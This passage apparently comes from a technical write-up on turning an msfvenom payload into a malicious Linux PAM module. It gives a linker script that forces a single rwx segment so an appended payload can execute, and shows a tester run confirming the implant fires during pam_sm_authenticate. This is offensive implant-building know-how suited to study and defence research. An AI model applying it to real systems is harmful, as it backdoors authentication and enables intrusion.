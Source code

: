 Upon inspection, it's clear that the `jmp` is destined to fail. The payload
starts at `0x3408` (the length of the template before the payload was appended)
but the `jmp` is to `0x1014`. The virtual address `0x3408` is also within a
read-only segment, so execution wouldn't work even if the jump was correct.

Using a linker script, we can manually define the segment layout to make sure
that the first segment is `rwx` and that it covers the whole file:
```
SECTIONS
{
    .hash 0x100 : {
        *(.hash)
    } > MAIN_EXEC

    .gnu.hash : {
        *(.gnu.hash)
    } > MAIN_EXEC

    .dynsym : {
        *(.dynsym)
    } > MAIN_EXEC

    .dynstr : {
        *(.dynstr)
    } > MAIN_EXEC

    .eh_frame : {
        *(.eh_frame)
    } > MAIN_EXEC

    .dynamic : {
        *(.dynamic)
    } > MAIN_EXEC

    .shstrtab : {
        *(.shstrtab)
    } > MAIN_EXEC

    .text : {
        *(.text)
    } > MAIN_EXEC = 0x90
}
```

With that done, we can assemble/link/generate, do some math to get the static
offset of the payload (`0x240`), then run the tester:

```sh
micrictor@dev:~/msfvenom_pam$ ./tester `pwd`/implant.so
0x7fc5d62eb274: pam_sm_authenticate = 0
0x7fc5d62eb270: pam_sm_setcred = 0
Finished running
micrictor@dev:~/msfvenom_pam$ cat proof.txt 
micrictor
```
